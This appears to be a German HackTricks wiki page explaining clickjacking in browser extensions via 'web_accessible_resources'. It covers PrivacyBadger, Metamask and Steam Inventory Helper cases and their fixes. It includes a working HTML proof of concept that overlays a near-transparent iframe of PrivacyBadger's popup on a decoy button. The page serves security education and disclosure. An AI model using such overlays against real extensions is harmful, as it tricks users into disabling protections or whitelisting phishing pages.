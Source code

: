 # BrowExt - ClickJacking

{{#include ../../banners/hacktricks-training.md}}

## Grundinformationen

Diese Seite wird eine ClickJacking-Sicherheitsanfälligkeit in einer Browsererweiterung ausnutzen.\
Wenn Sie nicht wissen, was ClickJacking ist, schauen Sie sich an:

{{#ref}}
../clickjacking.md
{{#endref}}

Erweiterungen enthalten die Datei **`manifest.json`** und diese JSON-Datei hat ein Feld `web_accessible_resources`. Hier ist, was [die Chrome-Dokumentation](https://developer.chrome.com/extensions/manifest/web_accessible_resources) darüber sagt:

> Diese Ressourcen wären dann über die URL **`chrome-extension://[PACKAGE ID]/[PATH]`** in einer Webseite verfügbar, die mit der **`extension.getURL method`** generiert werden kann. Erlaubte Ressourcen werden mit entsprechenden CORS-Headern bereitgestellt, sodass sie über Mechanismen wie XHR verfügbar sind.[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

Die **`web_accessible_resources`** in einer Browsererweiterung sind nicht nur über das Web zugänglich; sie funktionieren auch mit den inhärenten Berechtigungen der Erweiterung. Das bedeutet, dass sie die Fähigkeit haben, zu:

- Den Zustand der Erweiterung zu ändern
- Zusätzliche Ressourcen zu laden
- In gewissem Maße mit dem Browser zu interagieren

Diese Funktion stellt jedoch ein Sicherheitsrisiko dar. Wenn eine Ressource innerhalb von **`web_accessible_resources`** eine wesentliche Funktionalität hat, könnte ein Angreifer diese Ressource möglicherweise in eine externe Webseite einbetten. Unverdächtige Benutzer, die diese Seite besuchen, könnten unbeabsichtigt diese eingebettete Ressource aktivieren. Eine solche Aktivierung könnte je nach Berechtigungen und Fähigkeiten der Ressourcen der Erweiterung zu unbeabsichtigten Konsequenzen führen.

## PrivacyBadger Beispiel

In der Erweiterung PrivacyBadger wurde eine Sicherheitsanfälligkeit identifiziert, die sich auf das Verzeichnis `skin/` bezieht, das als `web_accessible_resources` auf folgende Weise deklariert wurde (Überprüfen Sie den ursprünglichen [Blogbeitrag](https://blog.lizzie.io/clickjacking-privacy-badger.html)):
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
Diese Konfiguration führte zu einem potenziellen Sicherheitsproblem. Insbesondere könnte die Datei `skin/popup.html`, die bei Interaktion mit dem PrivacyBadger-Symbol im Browser gerendert wird, innerhalb eines `iframe` eingebettet werden. Diese Einbettung könnte ausgenutzt werden, um Benutzer zu täuschen, sodass sie versehentlich auf "Disable PrivacyBadger for this Website" klicken. Eine solche Aktion würde die Privatsphäre des Benutzers gefährden, indem der Schutz von PrivacyBadger deaktiviert wird und der Benutzer möglicherweise einer erhöhten Verfolgung ausgesetzt wird. Eine visuelle Demonstration dieses Exploits kann in einem ClickJacking-Video-Beispiel angesehen werden, das unter [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm) bereitgestellt wird.

Um diese Schwachstelle zu beheben, wurde eine einfache Lösung implementiert: die Entfernung von `/skin/*` aus der Liste der `web_accessible_resources`. Diese Änderung minderte effektiv das Risiko, indem sichergestellt wurde, dass der Inhalt des Verzeichnisses `skin/` nicht über webzugängliche Ressourcen zugegriffen oder manipuliert werden konnte.

Die Lösung war einfach: **entfernen Sie `/skin/*` aus den `web_accessible_resources`**.

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}
</style>

<div id="stuff">
<h1>Click the button</h1>
<button id="button">click me</button>
</div>

<iframe
src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Metamask Beispiel

Ein [**Blogbeitrag über ClickJacking in Metamask ist hier zu finden**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). In diesem Fall hat Metamask die Schwachstelle behoben, indem überprüft wurde, dass das Protokoll, das zugegriffen wurde, **`https:`** oder **`http:`** (nicht **`chrome:`** zum Beispiel) war:

<figure><img src="../../images/image (21).png" alt=""><figcaption></figcaption></figure>

**Ein weiteres ClickJacking, das in der Metamask-Erweiterung behoben wurde**, war, dass Benutzer **Klicken, um auf die Whitelist zu setzen** konnten, wenn eine Seite verdächtig war, Phishing zu sein, aufgrund von `“web_accessible_resources”: [“inpage.js”, “phishing.html”]`. Da diese Seite anfällig für Clickjacking war, konnte ein Angreifer sie missbrauchen, indem er etwas Normales zeigte, um das Opfer dazu zu bringen, es ohne Notice auf die Whitelist zu setzen, und dann zurück zur Phishing-Seite zu gehen, die dann auf die Whitelist gesetzt wird.

## Steam Inventory Helper Beispiel

Überprüfen Sie die folgende Seite, um zu sehen, wie ein **XSS** in einer Browsererweiterung mit einer **ClickJacking**-Schwachstelle verknüpft wurde:

{{#ref}}
browext-xss-example.md
{{#endref}}

## Referenzen

- [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
- [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

{{#include ../../banners/hacktricks-training.md}}
